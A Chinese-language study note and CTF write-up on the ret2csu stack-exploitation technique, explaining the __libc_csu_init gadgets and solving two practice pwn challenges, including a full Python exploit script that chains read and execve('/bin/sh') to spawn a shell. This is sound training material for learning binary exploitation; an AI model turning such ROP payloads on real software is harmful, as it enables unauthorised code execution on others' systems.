 # 优秀的学习文章
[关于学习ret2csu的总结 | ZIKH26](https://www.cnblogs.com/ZIKH26/articles/15910485.html)

# Why ret to csu？
当程序给的gadget不够，或者输入长度受限时，可以考虑利用csu中的众多gadget以及一个call指令来劫持控制流。

# __libc_csu_init

汇编源码:
```c
.text:0000000000400790 ; void __fastcall _libc_csu_init(unsigned int, __int64, __int64)
.text:0000000000400790                 public __libc_csu_init
.text:0000000000400790 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:0000000000400790 ; __unwind {
.text:0000000000400790                 push    r15
.text:0000000000400792                 push    r14
.text:0000000000400794                 mov     r15d, edi
.text:0000000000400797                 push    r13
.text:0000000000400799                 push    r12
.text:000000000040079B                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004007A2                 push    rbp
.text:00000000004007A3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004007AA                 push    rbx
.text:00000000004007AB                 mov     r14, rsi
.text:00000000004007AE                 mov     r13, rdx
.text:00000000004007B1                 sub     rbp, r12
.text:00000000004007B4                 sub     rsp, 8
.text:00000000004007B8                 sar     rbp, 3
.text:00000000004007BC                 call    _init_proc
.text:00000000004007C1                 test    rbp, rbp
.text:00000000004007C4                 jz      short loc_4007E6
.text:00000000004007C6                 xor     ebx, ebx
.text:00000000004007C8                 nop     dword ptr [rax+rax+00000000h]
.text:00000000004007D0
.text:00000000004007D0 loc_4007D0:                             ; CODE XREF: __libc_csu_init+54↓j
.text:00000000004007D0                 mov     rdx, r13
.text:00000000004007D3                 mov     rsi, r14
.text:00000000004007D6                 mov     edi, r15d
.text:00000000004007D9                 call    ds:(__frame_dummy_init_array_entry - 600E10h)[r12+rbx*8]
.text:00000000004007DD                 add     rbx, 1
.text:00000000004007E1                 cmp     rbx, rbp
.text:00000000004007E4                 jnz     short loc_4007D0
.text:00000000004007E6
.text:00000000004007E6 loc_4007E6:                             ; CODE XREF: __libc_csu_init+34↑j
.text:00000000004007E6                 add     rsp, 8
.text:00000000004007EA                 pop     rbx
.text:00000000004007EB                 pop     rbp
.text:00000000004007EC                 pop     r12
.text:00000000004007EE                 pop     r13
.text:00000000004007F0                 pop     r14
.text:00000000004007F2                 pop     r15
.text:00000000004007F4                 retn
.text:00000000004007F4 ; } // starts at 400790
.text:00000000004007F4 __libc_csu_init endp
```

我们关注这两段代码，
![image-20240711144033441](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\image-20240711144033441.png)

下面的记作gadget1，上面的记作gadget2，因为我们会先执行下面的gadget。
先看gadget1：
第一个的 `add     rsp, 8`我们会直接略过（可以填充8个垃圾字符，也可以直接从0x40059A开始）
后面的6个pop就能控制对应的寄存器。
结合gadget2来看，

1. **rbx**:![image-20240711144455184](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\image-20240711144455184.png)
很显然直接置为0
2. **rbp**:![image-20240711144503008](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\image-20240711144503008.png)
为了满足比较条件，防止jnz跳转，我们将rbp置为1即可
3. **r12**:![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711142605282-1476322534.png)
当我们把rbx置为0后，就是`call [r12]`的调用，所以我们将r12设置为指向待执行函数地址值的地址即可（比如函数的got表）。这里要注意，是一个间接跳转。
那么有时候我们不想call，仅仅只是为了传参怎么办呢？
我们可以调用`_term_proc`这个"空函数"。![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711142808504-1237440250.png)
可以看到call了后对我们没有任何影响。
关于找指向_term__proc地址值的地址的方法
![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711142930492-512597737.png)
4. **r13**:![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711143012311-513315055.png)
可以发现，经过gadget1+gadget2的作用，控制r13就是控制rdx
5. **r14**:同上，控制r14就是控制rsi
6. **r15**:![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711143142865-272384458.png)
这里要注意下，我们只能控制rdi的低32位，也就是edi，所以不能完全的控制rdi的值。不过，一般64位程序中，pop_edi_ret的gadget都是很好找的。
7. 上述6个pop完了过后，填入gadget2的地址即可跳转到gadget2继续执行。

当然，如果并不需要控制寄存器，例如：我们执行完gadget1跳到gadget2然后"滑下来"又到了gadget1，此时我们就直接填充`7*8 = 56`个垃圾字符就行，到达ret时再劫持控制流。

# 几道题目

## [VNCTF2022公开赛]clear_got
[题目](https://buuoj.cn/challenges#[VNCTF2022%E5%85%AC%E5%BC%80%E8%B5%9B]clear_got)

很棒的一道题。
程序很短，![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711114936542-1744650723.png)

这里把got表清空了，而且程序本身的gadget也不大够，可以用ret2csu来打。
由于ret2csu要执行函数需要一个`[r12]`，如果有got表的话直接填入got表，但是这里memset了，就只能考虑程序给的系统调用了。
ret2syscall那里也提到过，可以通过read成功读取的字节数来控制rax。

所以我们第一遍ret2csu先布置好`read(0,bss,59)`的参数，在bss段写入"/bin/sh\x00",p64(syscall)，然后凑够59字节。(64为execve系统调用号为59)
然后再打一遍ret2csu，布置好`execve("/bin/sh\x00",0,0)`的参数，用`[r12]`来调用syscall。

有些细节也要注意：
1. 第一次打完csu的gadget2跳到gadget1时，直接布置execve的参数，不然后面的payload长度会超过限制。
2. 我们第一次csu不需要call调用函数，所以要找一个"空函数"，一般选择`_term_proc`,但是要注意到是`call [r12]`，所以要找一个指向`_term_proc`的地址。gdb![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711115719286-2024452861.png)
3. 第一遍布置完read的参数后我们紧接着布置了第二次，布置完过后才调用syscall(直接控制流调用)，经尝试发现，这个syscall的调用不能放在两次gadget的中间。尽可能保证前面参数布置的流畅性。
4. 为什么我们在传完"/bin/sh\x00"后还要传一个p64(system)？还是一样的，`call [r12]`，所以得通过写在bss段上来造一个间接跳转。

具体看代码吧：
```python
syscall = 0x000000000040077E

csu_g1 = 0x4007EA
csu_g2 = 0x4007D0
bss = 0x601060
p_termproc = 0x600e50

pl = b'a'*0x60 + b'b'*0x8
# read(0,bss,59)  rdi:0 rsi:bss rdx:59
pl += p64(csu_g1) + p64(0) + p64(1) + p64(p_termproc) + p64(59) + p64(bss) + p64(0)
pl += p64(csu_g2)
pl += b'a'*8 # ignore    :    add     rsp, 8
# execve("/bin/sh",0,0)
pl += p64(0) + p64(1) + p64(bss+8)
pl += p64(0) + p64(0)
pl += p64(bss) + p64(syscall) + p64(csu_g2)
sa("///\n",pl)
pl = b'/bin/sh\x00' + p64(syscall)
pl = pl.ljust(59,b"\x00")
sl(pl)

p.interactive()
```
![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711120426490-1274528622.png)

## ciscn_2019_es_7
[题目](https://buuoj.cn/challenges#ciscn_2019_es_7)

在学SROP的时候也是用的这道题，其实用ret2csu也比较好做，只是这里跟上面那道题又有点区别。
vuln就两个系统调用
![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711135844694-959098677.png)

而且程序里面给了mov eax,0F;和mov eax 3B;的gadget，所以SROP和execve都能直接打。
这题没办法写在bss段，只能写在题目给的栈里面。
根据多打印的信息泄露栈地址，从而得到输入的"/bin/sh"的地址，然后用csu简单布置下参数就行。
这道题的话，csu仅仅做的就是一个把rdx和rsi置0的作用，如果想利用`call [r12]`直接调用syscall好像不行？
尝试了下没打通。
![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711140404800-681876656.png)

注释掉的就是想用上一题的打法来打，不知道为什么打不通。
当然，这题有pop_rdi的gadget，输入也足够，所以控制好execve后两个参数后将csu_gadget1填充56个垃圾字符，再劫持控制流打正常的ret2syscall就行。
![image](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\stack\ret2csu\images\3092507-20240711140643305-556540454.png)

---

(所以感觉SROP基本都可以被ret2csu平替？)